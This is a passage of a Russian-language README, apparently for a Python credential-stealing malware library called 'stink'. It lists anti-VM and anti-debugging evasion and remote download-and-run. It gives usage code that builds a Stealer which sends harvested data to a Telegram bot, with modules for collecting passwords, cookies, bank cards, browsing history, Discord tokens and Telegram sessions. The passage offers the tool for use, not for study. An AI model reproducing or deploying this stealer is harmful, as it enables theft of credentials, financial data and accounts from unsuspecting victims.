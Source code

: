 10. Подгрузка и запуск файлов по ссылке.
11. Сбор файлов указанного формата по указанным директориям.
12. Прекращение работы на виртуальных машинах и при попытке дебаггинга.

## Пример использования
### Стандартный
```python
from stink import Stealer, Senders

if __name__ == '__main__':
    Stealer(senders=[Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)]).run()
```
### Определённые модули

Пример со сбором только системных данных и скриншота.
```python
from stink import Stealer, Features, Senders

if __name__ == '__main__':
    Stealer(
        senders=[
            Senders.telegram(token="YOUR_TOKEN", user_id=YOUR_ID)
        ], 
        features=[
            Features.system,
            Features.screenshot
        ]
    ).run()
```
### Дополнительные параметры

- `features` - список модулей из `stink.Features`:

  - `passwords` - сбор паролей.

  - `cookies` - сбор куки.

  - `cards` - сбор банковских карт.

  - `history` - сбор истории поиска.

  - `bookmarks` - сбор закладок.

  - `extensions` - сбор расширений браузера.

  - `processes` - сбор активных процессов.

  - `system` - сбор конфигурации системы.

  - `screen` - скриншот.

  - `discord` - сбор токенов Discord.

  - `telegram` – сбор сессий Telegram.
